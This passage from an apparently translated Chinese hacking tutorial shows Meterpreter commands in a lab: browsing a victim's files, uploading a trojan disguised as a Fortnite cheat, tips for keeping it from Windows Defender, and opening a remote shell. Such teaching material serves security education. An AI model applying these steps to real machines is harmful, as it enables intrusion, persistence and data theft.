     ```
    meterpreter > `cd  ../Documents`
    meterpreter > `ls`
    Listing: C:\Users\IEUser\Documents
    ==================================
    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Music
    40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Pictures
    40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Videos
    40777/rwxrwxrwx   0     dir   2019-03-19 07:29:40 -0400  WindowsPowerShell
    100666/rw-rw-rw-  402   fil   2019-03-19 06:49:49 -0400  desktop.ini
    ```

    你将看到音乐、图片、视频等文件夹，和任何其他 Windows 计算机一样。攻击者可以使用这些命令浏览目标计算机，寻找感兴趣的文件进行窃取。

1.  将*Fortnite_cheat_mode.exe*恶意文件从你的 Kali 虚拟机上传到*Documents*文件夹：

    ```
    meterpreter > `upload /home/kali/Desktop/Fortnite_cheat_mode.exe` 
    [*] uploading  : /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
    [*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
    [*] uploaded   : /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
    ```

1.  切换回你的 Windows 10 虚拟机并打开*Documents*文件夹。你应该能看到新上传的木马文件，如图 6-6 所示。

![f06006](img/f06006.png)

图 6-6：我们可以从 Kali 向感染的 Windows 10 虚拟机上传文件。

现在你已经在 Windows 虚拟机上备份了特洛伊木马，你可以随时将其从*Documents*文件夹复制并粘贴到*Downloads*文件夹中，防止 Windows Defender 重启后删除*Downloads*文件夹中的特洛伊木马。一旦某人通过网络或电子邮件打开一个被感染的文件，攻击者通常会在计算机的不同位置上传多个病毒，以确保他们能够持续控制目标机器。

### 从受害者计算机下载文件

Meterpreter 中的 `download` 命令允许你从受害者计算机下载文件。为了尝试，我们将在 Windows 虚拟机上创建一个示例文本文件，然后偷取它。

1.  在 `meterpreter >` 提示符下输入此命令，以远程控制受害者计算机的 Windows 命令行终端，或*shell*。

    ```
    meterpreter > `shell`
    Process 4952 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.17763.379]
    (c) 2018 Microsoft Corporation. All rights reserved.
    ```
